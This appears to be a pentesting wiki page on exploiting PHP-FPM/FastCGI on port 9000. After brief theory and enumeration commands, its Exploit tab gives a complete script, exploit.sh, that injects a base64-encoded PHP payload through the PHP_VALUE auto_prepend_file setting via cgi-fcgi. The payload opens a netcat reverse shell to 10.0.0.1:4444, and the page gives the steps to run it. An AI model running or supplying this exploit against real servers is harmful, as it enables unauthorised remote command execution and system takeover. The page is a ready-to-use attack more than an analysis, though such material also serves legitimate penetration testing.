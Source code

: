 ```yaml
---
description: Port 9000
---
```


# FastCGI

## Theory

FastCGI is a binary protocol for interfacing interactive programs with a web server. It uses the **9000 port** by default.  **Usually** FastCGI only listen in **localhost and** It's quiet easy to make FastCGI execute arbitrary code.

## Practice

{% tabs %}
{% tab title="Enumerate" %}
If the **PHP-FPM (FastCGI Process Manager)** is running on the target system, we might be able to execute arbitrary command.

```bash
#Enum processes
ps aux | cat| grep php-fpm
php-fpm: pool username

#Enum network
ss -lntp
LISTEN 0    511    127.0.0.1:9000    0.0.0.0:*
```
{% endtab %}

{% tab title="Exploit" %}
We need to create an arbitrary PHP file somewhere. For instance,

```bash
touch /dev/shm/index.php
```

Then using the following shell script **"exploit.sh",** we can obtain a reverse shell

{% code title="exploit.sh" %}
```bash
#!/bin/bash

PAYLOAD="<?php echo '<!--'; system('rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4444 >/tmp/f'); echo '-->';"
FILENAMES="/dev/shm/index.php" # Exisiting file path

HOST=$1
B64=$(echo "$PAYLOAD"|base64)

for FN in $FILENAMES; do
    OUTPUT=$(mktemp)
    env -i \
      PHP_VALUE="allow_url_include=1"$'\n'"allow_url_fopen=1"$'\n'"auto_prepend_file='data://text/plain\;base64,$B64'" \
      SCRIPT_FILENAME=$FN SCRIPT_NAME=$FN REQUEST_METHOD=POST \
      cgi-fcgi -bind -connect $HOST:9000 &> $OUTPUT

    cat $OUTPUT
done

```
{% endcode %}

Execute it:

```bash
chmod +x exploit.sh
./exploit.sh
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://exploit-notes.hdks.org/exploit/network/fastcgi-pentesting/" %}

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/9000-pentesting-fastcgi" %}
